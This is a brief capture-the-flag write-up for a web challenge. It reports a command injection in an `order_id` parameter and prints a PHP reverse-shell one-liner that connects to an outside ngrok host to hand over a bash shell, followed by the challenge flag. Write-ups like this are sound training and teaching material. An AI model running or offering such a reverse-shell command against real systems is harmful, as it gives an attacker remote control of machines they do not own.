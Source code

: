 There is a command injection in the `order_id` GET parameter.  You can read `index.php` to find the actual injection point (img 2).

I used a PHP reverse shell to get shell as user.
```
php -r '$sock=fsockopen("0.tcp.ap.ngrok.io",18271);exec("/bin/bash <&3 >&3 2>&3");'
```

Flag: `brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}`


Solved by: benkyou